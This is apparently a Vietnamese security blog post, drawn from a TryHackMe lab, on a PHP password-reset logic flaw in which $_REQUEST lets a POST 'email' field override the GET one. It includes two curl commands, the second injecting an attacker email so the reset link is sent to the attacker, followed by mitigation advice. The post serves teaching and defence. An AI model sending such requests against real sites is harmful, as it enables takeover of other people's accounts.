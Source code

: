 ```yaml
---
date : '2025-07-28T20:23:35+07:00'
title : 'Lỗi Logic Chết Người Trong Chức Năng Reset Password: Khi $_REQUEST Phản Bội'
description : 'Lỗi logic chết người trong chức năng reset password: Khi $_REQUEST phản bội'
tags : ['lỗi logic', 'reset password', '$_REQUEST','Error']
cover:
    image: "https://itsystems.vn/wp-content/uploads/2021/05/0.jpg.webp"
    alt: ""
    hiddenInList: false
---
```

Ai trong chúng ta cũng đã từng nhấn vào nút "Quên mật khẩu". Nó là một tính năng tiện lợi và quen thuộc, một cứu cánh khi trí nhớ phản bội. Nhưng đằng sau sự đơn giản đó có thể ẩn giấu những lỗ hổng logic tinh vi, có khả năng biến một tính năng hỗ trợ thành cửa ngõ cho kẻ tấn công chiếm đoạt tài khoản.

Hôm nay, chúng ta sẽ cùng "mổ xẻ" một kịch bản tấn công kinh điển, khai thác lỗi logic trong quy trình đặt lại mật khẩu, chỉ vì một lựa chọn lập trình tưởng chừng như vô hại trong PHP: biến $_REQUEST.

Lỗi Logic là gì? 🕵️‍♂️
![Lỗi Logic](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/58e63d7810ac4b23051e1dd4a24ef792.png)
Trước tiên, hãy làm rõ khái niệm. Khác với các lỗ hổng kỹ thuật như SQL Injection hay XSS, lỗi logic không tấn công vào cú pháp của mã lệnh. Thay vào đó, nó khai thác những sai sót trong luồng xử lý và quy trình hoạt động của ứng dụng. Kẻ tấn công không "phá" code, mà "lừa" ứng dụng tự làm những điều mà lẽ ra nó không được phép.

Một ví dụ đơn giản: Một trang web kiểm tra quyền admin bằng cách xem URL có bắt đầu bằng /admin không. Nếu kẻ tấn công truy cập vào /adMin (viết hoa chữ M), hệ thống có thể bỏ qua bước kiểm tra và cho phép truy cập, đó chính là một lỗi logic.

---
**"Mổ xẻ" Lỗ hổng trong chức năng Reset Password**  
Chúng ta sẽ chia quy trình reset password thành hai đoạn như sau:
- Người dùng email muốn đặt lại mật khẩu gửi yêu cầu đến hệ thống.
- Hệ thống gửi một liên kết đến email người dùng, khi người dùng nhấp vào liên kết đó sẽ dẫn đến một nơi để thay đổi mật khẩu.

**Vậy chúng sẽ lợi dụng điều gì trong đây?**   
- Email muốn đặt lại được gửi theo phương thức GET
- Tên đăng nhập... được gửi theo phương thức POST 
Và đây máy chủ sử dụng biến $_REQUEST để lấy dữ liệu từ người dùng. Vậy nếu tại đây chúng thêm 1 trường email vào trong form và gửi theo phương thức POST thì sao? Server sẽ lấy email nào để gửi liên kết đó đi? Đó chính là trường email được nhập theo phương thức POST ưu tiên hơn. 

**Quy trình tấn công sẽ như sau:**
- Kẻ tấn công nhập email người dùng **victim@gmail.com** vào và yêu cầu reset password. Server thấy hợp lệ và chấp nhập.
```CLI
 curl 'http://domain/customers/reset?email=victim%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=victim'
```
- Sau đưa đến 1 form để nhập thông tin thì chúng thêm 1 trường vào **username=victim&email=attacker@gmail.com** sau đó server lấy dữ liệu từ biến $_REQUEST là email của attacker
```CLI
curl 'http://domain/customers/reset?email=victim%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=victim&email=attacker@hacker.com'
```
- Sau đó link liên kết được gửi đến chúng và tài khoản chúng ta đã bị chúng chiếm đoạt

---

**Làm thế nào để phòng tránh? 🛡️**  
Lỗi lầm này hoàn toàn có thể tránh được bằng cách tuân thủ các nguyên tắc lập trình an toàn.

Không bao giờ tin tưởng $_REQUEST: Nguyên tắc vàng là hãy luôn sử dụng các biến toàn cục cụ thể. Việc này giúp mã nguồn của bạn rõ ràng và an toàn hơn.

Sử dụng đúng biến cho đúng mục đích:

- Dùng $_GET để lấy dữ liệu từ URL (query string).

- Dùng $_POST để lấy dữ liệu được gửi lên từ các form.
